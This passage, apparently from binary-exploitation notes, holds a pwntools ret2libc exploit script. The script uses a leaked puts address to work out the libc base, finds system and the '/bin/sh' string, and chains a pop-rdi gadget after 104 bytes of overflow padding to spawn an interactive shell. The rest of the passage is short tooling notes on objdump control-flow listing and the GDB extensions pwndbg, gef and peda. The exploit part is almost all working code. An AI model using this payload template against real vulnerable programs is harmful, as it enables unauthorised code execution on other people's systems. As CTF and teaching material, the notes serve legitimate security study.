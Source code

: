 ```python
leaked_puts_addr = u64(leaked_puts_str.ljust(8, b'\x00'))
log.info(f"Leaked puts address: {hex(leaked_puts_addr)}")

# --- Calculation Phase ---
# Calculate the base address of libc
libc.address = leaked_puts_addr - libc.symbols['puts']
log.info(f"Calculated libc base address: {hex(libc.address)}")

# --- Exploitation Phase ---
# Now you can calculate the address of any other function or gadget in libc
system_addr = libc.symbols['system']
bin_sh_addr = next(libc.search(b'/bin/sh\x00'))
# The offset for this gadget must be found with ROPgadget or similar
rop_pop_rdi = libc.address + 0x000000000002155f # Example gadget offset

log.info(f"system address: {hex(system_addr)}")
log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

# Build the final payload using the calculated addresses
payload = b'A' * 104 # Padding to overflow
payload += p64(rop_pop_rdi)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

#### cfg
```bash
objdump -d binary_name | awk '/^[[:xdigit:]]+:/ {address=$1} /call|jmp|je|jne|jg|jl|jz|jnz/ {print address, $0}'
# Ghidra -> Display Function Graph
```

#### Ghidra

#### GDB Extensions (pwndbg/gef/peda)
```bash
# These extensions greatly enhance GDB for exploit development.
# Installation instructions are specific to each tool.

# Example commands in pwndbg/gef:
heap # ; view heap layout
bins # ; view malloc bins
telescope # ; view a region of memory with context (pointers, strings)
vmmap # ; view memory mapping, similar to /proc/pid/maps
ropper # ; search for ROP gadgets (if integrated)

# Note: Choose one extension (pwndbg, gef, or peda) as they
# generally don't work together. They provide similar core
# features but have different UIs and advanced capabilities.
```
